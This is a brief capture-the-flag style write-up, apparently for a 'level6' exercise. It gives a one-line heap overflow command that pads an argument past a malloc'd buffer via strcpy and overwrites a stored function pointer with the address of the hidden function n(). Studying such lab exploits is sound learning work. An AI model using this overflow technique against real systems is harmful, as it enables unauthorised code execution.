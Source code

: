 ./level6 $(python -c 'print "A" * 64 + "B" * 8 + "\x54\x84\x04\x08"')

in this binary we have 2 calls to `malloc`, one for a buffer we take as an argument and the other that stores `m` function address. there is another function that is not called (`n()`) and since we are using strcpy to copy our argument to our allocated space we can write more than we allocated.

